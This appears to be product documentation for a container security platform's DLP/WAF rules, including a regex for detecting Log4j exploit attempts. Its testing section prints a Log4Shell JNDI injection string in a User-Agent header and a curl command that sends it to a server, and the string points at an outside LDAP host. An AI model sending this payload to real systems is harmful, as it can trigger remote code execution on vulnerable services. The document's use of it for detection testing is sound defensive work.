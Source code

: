 <strong>DLP/WAF Behavior Summary</strong>

+ DLP pattern matching does not occur for the traffic which is passing among workloads that belong to same DLP group.
+ Any traffic passing in and out of a DLP group is scanned for pattern matches. 
+ Cluster ingress and egress traffic is scanned for patterns if the workload is allowed to make ingress/egress connections.
+ Multiple patterns per DLP/WAF rule (max 16 patterns are allowed per rule).
+ Multiple alerts are generated for a single packet if it matches multiple rules.
+ For performance reasons, only the first 16 rules are alerted and matched even if the packet matches more than 16 rules.
+ Alerts are aggregated and reported together if same rule matches and alerts multiple times within 2 seconds.
+ PCRE is used for pattern matching. 
+ Hyper scan library is used for efficient, scalable and high-performance pattern matching.

#### DLP/WAF Actions in Discover, Monitor, Protect Modes
When adding sensors to groups, the DLP/WAF action can be set to Alert or Deny, with the following behavior if there is a match:
+ Discover mode. The action will always be to alert, regardless of the setting Alert/Deny.
+ Monitor mode. The action will always be to alert, regardless of the setting Alert/Deny.
+ Protect mode. The action will be to alert if set to Alert, or block if set to Deny.

####Log4j Detection WAF Pattern
The WAF-like rule to detect the Log4j attempted exploit is below. Please note this should only be applied to Groups expecting ingress web connections.
```
\$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
```

Also note that there are ways that attackers could bypass detection by such rules.

####Testing the Log4j WAF Detection
In an attempted exploit, the attacker will construct an initial jndi: insertion and include it in the User-Agent HTTP Header:
```
User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}
```

Using curl to POST data to server(container) can help to test WAF rule:
```
curl  -X POST -k  -H "X-Auth-Token: $_TOKEN_" -H "Content-Type: application/json" -H "User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}" -d '$SOME_DATA' "http://$SOME_IP_:$PORT"
```

####WAF Setup and Testing	
The downloadable file below provides an unsupported script for creating WAF sensors via CRD and running common WAF rule tests against those sensors. The README provides instructions for running it.

[Download WAF test script](waf_test.zip)

#### Sample Alerts
